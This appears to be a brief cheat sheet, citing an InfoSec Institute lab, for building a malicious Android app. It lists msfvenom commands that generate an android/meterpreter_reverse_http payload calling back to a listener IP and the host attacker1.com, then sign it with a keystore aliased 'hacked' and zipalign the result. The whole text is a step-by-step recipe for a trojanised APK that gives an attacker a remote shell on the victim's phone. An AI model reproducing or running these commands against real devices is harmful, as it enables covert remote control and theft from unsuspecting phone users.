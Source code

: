 ===android apk=====
> https://resources.infosecinstitute.com/topic/lab-hacking-an-android-device-with-msfvenom/
+ msfvenom -p android/meterpreter_reverse_http LHOST=192.168.1.56 LPORT=8099 HttpHostHeader=attacker1.com R>android_shell.apk
+ keytool -genkey -V -keystore key.keystore -alias hacked -keyalg RSA -keysize 2048 -validity 10000
+ jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore android_shell.apk hacked
+ jarsigner -verify -verbose -certs android_shell.apk
+ zipalign -v 4 android_shell.apk singed_jar.apk
